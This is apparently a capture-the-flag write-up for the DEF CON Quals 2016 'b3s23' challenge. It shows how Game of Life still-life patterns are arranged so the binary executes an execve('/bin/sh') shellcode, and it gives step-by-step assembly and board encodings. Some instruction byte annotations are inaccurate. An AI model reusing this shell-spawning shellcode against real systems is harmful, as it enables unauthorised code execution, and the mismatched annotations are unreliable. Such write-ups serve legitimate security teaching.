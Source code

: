 # DEFCON Qualifier 2016: b3s23

----------
## Challenge details
| Contest        | Challenge     | Category  | Points | Solves |
|:---------------|:--------------|:----------|-------:|-------:|
| DEF CON CTF Quals 2016 | b3s23 | Coding Challenges |    111 | 34 |

**Description:**

> Please enjoy a Game of Life at b3s23_28f1ea914f8c873d232da030d4dd00e8.quals.shallweplayaga.me:2323
>
> [Download](http://download.quals.shallweplayaga.me/28f1ea914f8c873d232da030d4dd00e8/b3s23)

-------

## Write-up

### Background

From [Wikipedia](https://en.wikipedia.org/wiki/Conway%27s_Game_of_Life) we learn that b3s23 is the standard way of symbolizing Conway's Game of Life, where a cell is born if it has exactly 3 neighbors, survives if it has 2 or 3 living neighbors, or dies if neither is true. 

### Binary Details

```bash
$ file b3s23
ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
```

### Execution
Upon running the binary we receive the following:
```bash
$ docker run -i legitbs/b3s23
Welcome to b3s23.  Enter x,y coordinates.  Enter any other character to run.
```
It is assumed that we need to enter coordinates in the form x,y (e.g. 1,2) followed by any other character in order to set the positions of the initial live cells on the gameboard and iterate the Game of Life. For example, in order to create a a Block, a [still life](https://en.wikipedia.org/wiki/Still_life_(cellular_automaton)), one could enter the following,
```
0,0
0,1
1,0
1,1
a
```
An excerpt of the output would be
```
110000
110000
000000
```
It was observed from the output that the game was iterating 15 times and then the connnection was closed. The output contained a 110x110 gameboard. I verified that if a coordinate less than 0 or greater than 109 was entered the following error would be printed.
```bash
110,0
Illegal Coordinate!
```
While running it locally, a `Segmentation fault (core dumped)` was reported. The initial assumption was that the result of the final iteration from the Game of Life was being executed by the binary somehow.

### Reverse Engineering

(TBD)

### Solution
To solve this challenge I decided to construct an initial Game of Life board such that the final board would contain assembly code that when executed would provide an interactive shell to the client. I decided to use execve system call to get a shell.

I started with the following execve shellcode,
```c
 int execve(const char *path, char *const argv[], char *const envp[]);
```

```assembly
xor    %eax,%eax        ; "\x31\xC0"
push   %eax             ; "\x50"
push   $0x68732f2f      ; "\x68\x2F\x2F\x73\x68"
push   $0x6e69622f      ; "\x68\x2F\x62\x69\x6E"
mov    %ebx,%esp        ; "\x89\xE3"
mov    %dl, 0x0         ; "\xB2\x00" 
push   %eax             ; "\x50"
push   %ebx             ; "\x53"
mov    %ecx, %esp       ; "\x89\xE1"
mov    %al, $0xb        ; "\xA0\x00\x00\x00\x00"
int    $0x80            ; "\xCD\x80"     
```
This shellcode accomplishes the following,

1. Sets eax to 0 and then pushes the value on the stack to Null-terminate the path
2. Pushes the the path string, "/bin/sh", on the stack
3. Moves the address of the path to ebx
4. Sets edx to 0
5. Pushes eax on the stack again (still 0) in order to Null-terminate the argv array
6. Pushes the address of the path on the stack
7. Moves the adddress of the stack pointer to ecx
8. Moves the system call number for execve into al
9. Invokes the system call

I decided to attempt to encode the shellcode using only still life constructions. This would ensure that the entire construction would remain during the 15 iterations. At 28 bytes, the binary encoding of this shellcode would eventually wrap around the 110 bits of the first line of the game board. Wrapping would complicate the ability to stabilize the still life constructions. Therefore, I decided to try and reduce the size of the shellcode to only 13 bytes. 

By setting a breakpoint at `0xf661e000`, the address of the game board, I would be able to determine the state of the registers prior to executing the shellcode. The result was the following

``` assembly
eax     0x0
ecx     0x0
edx     0x1
ebx     0xf67c7000    ; last coordinate address
esp     0xf6ffb6cc
eip     0xf661e000
```

Since the eax register is already set to 0, I could eliminate the `xor eax,eax` instruction. The next four instructions are all used to get the address null-terminated path "/bin/sh" into `ebx`. The `ebx` register contains the address of the last bit that was set due to sending the program a coordinate. If I could encode the "/bin/sh" on the game board and send the program the coordinates for the first bit of the string, then `ebx` would already contain the address of the path. This would eliminate the need for the four instructions.

The path "/bin/sh" encodes to following binary string

```
00101111 01100010 01101001 01101110 00101111 01110011 01101000 
```
Unfortunately, the first bit is not a 1. Therefore I would need to set the coordinate 1 bit before my string and then increment ebx. I was able to encode "/bin/sh" using the following still life construction.

```
   00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
   00011000000000000000000000000011000110000000011000000000000000000000000000000000000000000000000000000000000000
   00001000000000000000000000000010000010001000010000000000000000000000000000000000000000000000000000000000000000
   00010001011001100101100000000001000100010100000101101100000000000000000000000000000000000000000000000000000000
-->00101111011000100110100101101110001011110111001101101000000000000000000000000000000000000000000000000000000000
   00101000000001000000000110101000001010000000100000000010000000000000000000000000000000000000000000000000000000
   01100100000001100000000000000000011001000001000000000110000000000000000000000000000000000000000000000000000000
   00001100000000000000000000000000000011000001100000000000000000000000000000000000000000000000000000000000000000
   00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```

With this construction in place the shellcode was simplified to the following 14 bytes,

```assembly
inc    %ebx             ; "\x43"
mov    %dl, 0x0         ; "\xB2\x00" 
push   %eax             ; "\x50"
push   %ebx             ; "\x53"
mov    %ecx, %esp       ; "\x89\xE1"
mov    %al, $0xb        ; "\xA0\x00\x00\x00\x00"
int    $0x80            ; "\xCD\x80"   
```
I then replace `mov %al, $0xb` with `or %al, $0xb` to eliminate 3 bytes. Unfortunately, I was unable to find a still life construction for `mov %ecx, %esp`. So I had to replace these instructions with
```assembly
push esp
pop  ecx
```
resulting in the following shellcode
```assembly
inc    %ebx             ; "\x43"
mov    %dl, 0x0         ; "\xB2\x00" 
push   %eax             ; "\x50"
push   %ebx             ; "\x53"
push   esp              ; "\x54"
pop    ecx              ; "\x59"
or     %al, $0xb        ; "\xB0\x0B"
int    $0x80            ; "\xCD\x80" 
```
With some additionally shuffling of instructions, I was eventually able to find a still life construction for the following shellcode
```assembly
inc    %ebx             ; "\x43"
push   %eax             ; "\x50"
push   %ebx             ; "\x53"
or     %al, $0xb        ; "\xB0\x0B"
push   esp              ; "\x54"
pop    ecx              ; "\x59"
mov    %dl, 0x0         ; "\xB2\x00" 
int    $0x80            ; "\xCD\x80" 
```
The final Game of Life still life construction for the shellcode was
```
01000011010100000101001100001100000010110000110000001000010101000101100110110010000000001100110110000000000000
10100001011010000110100100001100000011010000110000010100101110100110100110110011100000001100110110000000000000
01000010000010000000110000000000000000000000000000001000100000100000000000000000010000000000000000000000000000
00000010110100000110100000000000000000000000000000000000010101000000000000000011100000000000000000000000000000
00000001011000000100100000000000000000000000000000000000001101100000000000000010000000000000000000000000000000
00000000000000000011000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```
A python solver for this challenge is available [here](https://github.com/samuraictf/writeups/blob/master/defconquals2016/b3s23/b3s23_solve.py)

